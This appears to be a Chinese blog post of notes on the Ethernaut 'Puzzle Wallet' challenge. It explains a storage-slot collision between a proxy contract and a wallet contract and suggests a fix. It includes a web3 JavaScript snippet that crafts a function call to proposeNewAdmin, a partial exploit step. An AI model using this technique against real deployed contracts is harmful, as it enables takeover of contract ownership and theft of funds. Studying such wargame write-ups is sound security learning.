```yaml
---
layout: post
title:  （笔记）PuzzleWallt中slot存储冲突以及函数签名的利用
categories: [Solidity,区块链安全,智能合约]
excerpt: slot冲突问题，利用未公开的代理合约函数ABI制造函数签名，并且调用....

---
```


## meet it

在打[Puzzle Wallet](https://ethernaut.openzeppelin.com/level/0x4dF32584890A0026e56f7535d0f2C6486753624f)时，对一些重点进行记录



- **slot冲突问题**
- **利用未公开的代理合约函数ABI制造函数签名，并且调用**

## slot冲突问题

proxy合约和PuzzleWallet合约的整个逻辑是数据分离：

proxy合约保存数据，PuzzleWallet合约保存代码逻辑，当合约更新时，只需要更改PuzzleWallet的地址，并且proxy延用当前保存的数据继续服务。

```solidity
contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;  // slot 0
    address public admin; // slot 1
    }
    contract PuzzleWallet {
    address public owner; // slot 0 
    uint256 public maxBalance; // slot 1
    mapping(address => bool) public whitelisted; //slot 2
    mapping(address => uint256) public balances; // slot 3
    }
```

问题是，PuzzleProxy自己定义的pendingAdmin，admin 。那么当运行后，两个合约slot0 和 slot1 是重叠冲突的。 

意味着当我们修改pendingAdmin时，等同于修改了pendingAdmin和owner

解决方法是  PuzzleProxy 应该 和 PuzzleWallet  的变量应该同步，即使增加pendingAdmin和admin，也要如下：

````solidity
contract PuzzleProxy is UpgradeableProxy {
    address public owner; // slot 0 
    uint256 public maxBalance; // slot 1
    mapping(address => bool) public whitelisted; //slot 2
    mapping(address => uint256) public balances; // slot 3
    address public pendingAdmin;  // slot 4
    address public admin; // slot 5 
    }
````

## 利用未公开的代理合约函数ABI制造函数签名，并且调用

当我们用web3与合约交互，查看ABI，发现并没有proxy合约的函数，但我们知道字节码中肯定包含了proxy合约的函数。所以我们需要自己编辑ABI，制造函数签名去调用它的proposeNewAdmin函数。

```solidity
   function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }
```

下面是调用的JS：

```javascript
proposeNewAdminABI = {
    name:'proposeNewAdmin',
    type: 'function',
    inputs: [
        {
            type: "address",
            name:"_newAdmin"
        }
    ]
}
params = [player]
data = web3.eth.abi.encodeFunctionCall(proposeNewAdminABI,params)
await web3.eth.sendTransaction({from: player,to: contract.address,data})
```